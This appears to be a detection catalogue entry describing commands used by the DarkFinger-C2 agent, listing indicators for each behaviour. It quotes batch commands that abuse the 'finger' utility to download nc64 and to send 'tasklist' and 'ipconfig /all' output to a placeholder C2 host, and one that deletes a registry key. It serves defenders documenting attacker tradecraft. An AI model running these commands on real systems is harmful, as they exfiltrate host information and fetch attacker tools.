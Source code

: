 ### Download Nc64

- Description: Downloads Nc64.exe and saves it to the Desktop as NC.EXE
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L129
- Indicators:
  - Call the `finger` binary with the `nc` keyword at the start (Default delay time is `10`)

    ```batch
    finger nc10@[DarkFinger-C2IP] > tmp.txt
    ```

### Exfil Tasklist

- Description: Exfiltrate results of the `tasklist` using the finger utility
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L157
- Indicators:
  - Call to `tasklist` and `finger` binaries via `cmd.exe` with the `/c` flag

    ```batch
    cmd /c for /f "tokens=1" %%i in ('tasklist') do finger ."%%i"@[DarkFinger-C2IP]
    ```

### Exfil IP Config

- Description: Exfiltrate results of the `ipconfig` using the finger utility
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L167
- Indicators:
  - Call to `ipconfig /all` binary via `cmd.exe` with the `/c` flag

    ```batch
    cmd /c for /f "tokens=*" %%a in ('ipconfig /all') do  finger ".%%a"@[DarkFinger-C2IP]
    ```

### Remove Netsh PortProxy

- Description: Removes NETSH PortProxy from the registry
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L203
- Indicators:
  - Call to `reg.exe`

    ```batch
    REG DELETE HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4 /F  >nul 2>&1
    ```

### Change C2 Server Port

- Description: Allows agent to change the DarkFinger C2 listener port.
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L223
- Indicators:
  - Call the `finger` binary with the `!` prefix. (`%TMP_PORT%` could be any port in the allowed range)
